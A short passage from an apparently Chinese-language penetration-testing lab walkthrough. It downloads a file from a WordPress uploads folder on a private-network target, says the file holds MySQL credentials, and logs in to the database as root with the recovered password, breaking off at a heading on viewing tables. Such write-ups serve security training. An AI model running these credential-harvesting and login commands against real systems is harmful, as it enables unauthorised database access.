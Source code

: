 ```plain
wget https://192.168.179.149:12380/blogblog/wp-content/uploads/1140321183.jpeg --no-check-certificate
cat 1140321183.jpeg
```

[![](assets/1699929525-81b59ba9d2cb4e3f9eb0659cb5d4f7fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140117-e5146afa-8120-1.png)

里面包含 mysql 用户名与密码等重要信息

### mysql 登录

使用用户名 root 和密码 plbkac 进行数据库登录

```plain
mysql -h 192.168.179.149 -uroot -pplbkac
```

查看数据库和相关表：
